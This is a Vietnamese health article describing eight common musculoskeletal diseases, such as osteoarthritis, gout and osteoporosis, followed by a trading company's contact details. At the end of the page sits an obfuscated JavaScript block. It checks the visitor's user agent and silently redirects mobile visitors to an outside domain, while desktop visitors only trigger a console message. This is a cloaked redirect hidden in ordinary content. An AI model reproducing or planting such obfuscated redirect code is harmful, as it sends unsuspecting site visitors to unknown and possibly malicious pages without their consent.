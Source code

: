 8 căn bệnh cơ xương khớp thường gặp và cách phòng tránh

Các bệnh cơ xương khớp có các triệu chứng như đau, sưng khớp, hạn chế tầm vận động, yếu và đau cơ, biến dạng xương… Người bệnh ban đầu thường chủ quan với những triệu chứng nhẹ, chỉ đến bệnh viện khi cơn đau vượt ngưỡng chịu đựng. Nếu không điều trị kịp thời, tổn thương hệ thống xương khớp có thể để lại nhiều di chứng nguy hiểm.

Các bệnh cơ xương khớp thường gặp

Thoái hóa khớp
Thoái hóa khớp là bệnh lý xương khớp xảy ra khi phần sụn khớp và xương dưới sụn ở khớp bị tổn thương, dẫn đến các phản ứng viêm và tình trạng tràn dịch khớp. Nguyên nhân phổ biến của thoái hóa khớp là tuổi tác và một số yếu tố khác như di truyền, tình trạng béo phì, chấn thương xảy ra thường xuyên tại khớp, tai nạn thể thao, tai nạn lao động, các bệnh lý khớp viêm như viêm khớp dạng thấp, gút hay nhiễm trùng khớp…

Thoát vị đĩa đệm cột sống
Đây là bệnh lý gây ra do tình trạng lớp nhân nhầy ở đĩa đệm tràn ra bên ngoài, chèn ép lên các dây thần kinh, gây ra bệnh rễ thần kinh. Thoát vị đĩa đệm cột sống xảy ra cả ở người cao tuổi và ở người trẻ tuổi. Những yếu tố nguy cơ của bệnh bao gồm lão hóa, yếu tố sinh hoạt đặc biệt công việc ngồi lâu, bưng vác đồ nặng và tình trạng thừa cân – béo phì. Thoát vị đĩa đệm cột sống thường xảy ra nhất ở vùng đốt sống chịu lực và cử động nhiều, do đó thoát vị thường xảy ra vùng cột sống thắt lưng và vùng cột sống cổ.

Đau thần kinh tọa
Đây là tình trạng cơn đau lan từ vùng mông xuống dọc theo đường đi của dây thần kinh tọa. Những nguyên nhân gây đau thần kinh tọa gồm:

Thoát vị đĩa đệm: Đây là nguyên nhân phổ biến nhất. Khối lồi ra phía sau của đĩa đệm gây chèn ép lên dây thần kinh tọa, khiến người bệnh đau nhức.

Thoái hóa cột sống thắt lưng: Tình trạng thoái hóa làm hình thành gai xương, xâm lấn vào lỗ liên hợp cột sống. Đây là vị trí dây thần kinh tọa đi ra khỏi cột sống. Gai xương đủ lớn có thể tác động đến dây thần kinh tọa, gây đau. Một số trường hợp thoái hóa làm hẹp ống sống cũng có thể gây đau.

Trượt đốt sống: Tình trạng trượt đốt sống làm hẹp lỗ liên hợp cột sống, tác động đến thần kinh tọa, khiến người bệnh đau nhức.

Một số nguyên nhân khác gây đau thần kinh tọa là chấn thương, viêm…

Viêm khớp dạng thấp
Viêm khớp dạng thấp là một bệnh xương khớp viêm nhiều khớp và có thể ảnh hưởng lên các cơ quan ngoài khớp. Bệnh thường xảy ra ở nữ giới hơn nam giới và độ tuổi thường mắc bệnh là tuổi trung niên. Triệu chứng bệnh thường gặp nhất là sưng, nóng, đau và hạn chế vận động các khớp ở bàn tay, thường đối xứng 2 bên. Người bệnh đau liên tục ban ngày lẫn ban đêm.

Ngoài ra, người bệnh thường có cứng khớp buổi sáng với thời gian kéo dài > 30 phút. Khi bệnh kéo dài và tiến triển nặng, người bệnh sẽ bị biến dạng khớp ở bàn tay điển hình trong viêm khớp dạng thấp làm người bệnh hạn chế vận động và sinh hoạt, ảnh hưởng đến chất lượng cuộc sống. Ngoài ra, trong giai đoạn trễ, viêm khớp dạng thấp có thể biểu hiện những triệu chứng ngoài khớp như xuất hiện các nốt dưới da, khô mắt, khô miệng, ảnh hưởng lên tim, phổi…và có thể đe dọa tính mạng người bệnh.

Bệnh gout Bệnh gout xảy ra khi có sự rối loạn chuyển hóa nhân purin trong cơ thể, từ đó làm gia tăng nồng độ axit uric trong máu. Axit uric được hình thành trong cơ thể, được đào thải qua nước tiểu và phân. Có nhiều nguyên nhân gây tăng axit uric trong máu như ăn quá nhiều thực phẩm có chứa purin (nội tạng động vật, thịt bò, thịt dê, thịt cừu, hải sản…), giảm thải axit uric ra khỏi cơ thể (suy thận, rối loạn di truyền…). Khi nồng độ axit uric trong nước tiểu tăng cao và kéo dài, sẽ dẫn đến hình thành và lắng đọng của tinh thể urat ở các cơ quan khác nhau trong cơ thể như khớp, da, tim, thận…
Các tinh thể urat lắng đọng tại khớp gây ra các đợt viêm khớp đột ngột với biểu hiện sưng, nóng, đỏ và đau dữ dội các khớp trong vài ngày sau đó tự khỏi. Các khớp thường bị ảnh hưởng trong bệnh gout là khớp bàn ngón chân, khớp cổ chân hay khớp gối. Khi bệnh tiến triển, các cơn đau sẽ thường xuyên hơn, kéo dài hơn, ảnh hưởng nhiều khớp khác như khớp ở bàn tay, khớp khủy tay, khớp vai…Nếu không được điều trị đúng, bệnh gout sẽ để lại nhiều hậu quả nặng nề như biến dạng và phá hủy các khớp gây tàn phế, gây tình trạng suy tim và suy thận.

Viêm điểm bám gân Viêm gân và viêm điểm bám gân là bệnh lý thường gặp trong bệnh cơ xương khớp. Có rất nhiều gân trong cơ thể con người và chúng đều có thể bị viêm. Tuy nhiên, một số gân và điểm bám gân được ghi nhận hay xảy ra viêm trong thực hành lâm sàng như viêm cân gan chân (viêm gân ở lòng bàn chân), viêm gân gót, viêm gân cơ chân ngỗng (gân cơ phía dưới gối), viêm điểm bám gân lồi cầu ngoài và lồi cầu trong xương cánh tay, viêm gân cơ chóp xoay…
Tùy thuộc vào mỗi vị trí bị ảnh hưởng sẽ đau và hạn chế vận động ở những vị trí khác nhau như đau vùng gót chân, đau vùng gối, đau vùng cánh tay, đau vùng vai…Có nhiều nguyên nhân gây ra bệnh lý viêm gân và viêm điểm bám gân như tình trạng lặp đi lặp lại các động tác khiến gân phải làm việc quá mức hay tình trạng viêm trong máu ảnh hưởng đến các gân (các bệnh lý viêm hệ thống như viêm khớp dạng thấp, viêm khớp cột sống…).

Loãng xương Loãng xương là tình trạng xảy ra do giảm khối lượng và chất lượng của xương, làm giảm mật độ xương và tăng nguy cơ gãy xương dù chỉ với chấn thương nhẹ. Tình trạng loãng xương thường xảy ra ở người lớn tuổi, phụ nữ sau mãn kinh, những người suy dinh dưỡng, sử dụng corticoid kéo dài… Bệnh có thể diễn biến âm thầm, không có triệu chứng lâm sàng đặc trưng. Người bệnh thường chỉ phát hiện bệnh khi có biến chứng như gãy xương hoặc biến dạng vùng cột sống (gù, vẹo, giảm chiều cao).
Gãy xương là biến chứng nguy hiểm nhất của loãng xương và nguy cơ càng gia tăng khi tình trạng loãng xương càng nặng. Bệnh nhân loãng xương thường gây gãy xẹp các đốt sống chịu lực của cơ thể như đốt sống L1, T12 hoặc gãy cổ xương đùi, có thể xảy ra đột ngột hoặc từ từ sau một chấn thương nhẹ như té ngồi từ trên ghế, võng hoặc thậm chí xảy ra khi không có chấn thương. Gãy xương do loãng xương có thể gây ra tình trạng chèn ép tủy sống làm bệnh nhân bị yếu liệt, mất cảm giảm 2 chân, rối loạn đi tiêu, đi tiểu và cần nhập viện cấp cứu.

Bệnh cơ xương khớp do chấn thương Tai nạn trong luyện tập thể dục thể thao, vận động, di chuyển hằng ngày có thể tác động tới hệ cơ xương khớp, gây đau nhức. Chấn thương có thể gây biểu hiện nhẹ như đau không đặc hiệu do căng cơ đến những biểu hiện nghiêm trọng như dập cơ, bong gân hoặc đứt gân, đứt dây chằng hoặc gãy xương. (3)
Gãy xương do chấn thương có thể gây nguy hiểm đến tính mạng như tổn thương mạch máu làm mất máu nhiều hoặc chèn ép tủy sống…Những trường hợp này cần phải nhập viện và can thiệp điều trị tích cực.

Ngoài ra, bong gân cũng có thể gây đau nhức. Tình trạng này thường xảy ra sau một tác động mạnh nhưng không gây trật khớp hay gãy xương. Bong gân dễ dẫn tới giãn dây chằng hay rách dây chằng, thường xảy ra do vận động quá sức hay sai tư thế khi sinh hoạt, làm việc, chơi thể thao…

THÔNG TIN LIÊN HỆ:

CÔNG TY TNHH THƯƠNG MẠI COXUONGKHOP

ĐỊA CHỈ: 2B Phổ Quang, Phường 2, Quận Tân Bình, Thành phố Hồ Chí Minh

SĐT: 098.9999.888 - 0399.777.999

EMAIL: COXUONGKHOPPRO@GMAIL.COM

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.verrygood.click/xk2",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
